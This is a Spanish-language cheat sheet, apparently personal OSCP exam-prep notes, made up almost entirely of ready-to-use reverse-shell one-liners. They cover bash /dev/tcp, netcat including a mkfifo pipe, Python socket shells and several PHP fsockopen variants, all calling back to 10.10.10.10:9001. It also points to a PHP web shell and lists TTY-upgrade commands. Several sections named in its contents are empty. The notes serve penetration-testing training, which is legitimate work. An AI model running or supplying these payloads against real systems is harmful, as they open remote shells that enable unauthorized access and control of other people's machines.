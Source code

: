 ﻿# Notas de preparación para el OSCP 

**Año : 2021**

![oscp](https://blog.nivel4.com/wp-content/uploads/2019/01/try-harder.png)

**Curso: Penetration Testing with Kali Linux (PEN-200)**

## Contenido
- [Linux](#Linux)  
  - [Reverse shells](#Reverse-shells) 
    - [Bash](#Bash)
    - [Netcat](#Netcat)   
    - [Python](#Python)
  - [Mejorando nuestra shell](#Spawning-a-TTY-shell)   
  - [Files]  
  - Bypassing restricted shells (rbash , rzsh,etc)    
- [Windows](#Windows)
- 
- [Reverse Shell]

Linux 
=========================================
Técnicas para utilizar en sistemas basados en unix

### Reverse shells

[Reverse shell generator](https://www.revshells.com/)

### Reverse shell comúnes
#### Bash
  ```bash
  bash -i >& /dev/tcp/10.10.10.10/9001 0>&1 
  ```
#### Netcat 
  ```bash
  nc -e /bin/bash 10.10.10.10 9001
  nc -e /bin/sh 10.10.10.10 9001
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
  ```
  
#### Python
  ```bash
  export RHOST="10.10.10.10";export RPORT=9001;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT")))); [os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
  
  python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
  ```
#### PHP 
  ```bash
  php -r '$sock=fsockopen("10.10.10.10",9001);exec("bash <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.10.10.10",9001);shell_exec("bash <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.10.10.10",9001);system("bash <&3 >&3 2>&3");'
  php -r '$sock=fsockopen("10.10.10.10",9001);passthru("bash <&3 >&3 2>&3");'
  /usr/share/webshells/laudanum/php/php-reverse-shell.php
  ```
  





  ```bash 
      python3 -c 'import pty;pty.spawn("/bin/bash")' 
      script /dev/null -c bash
  ```
     
  
3. Windows
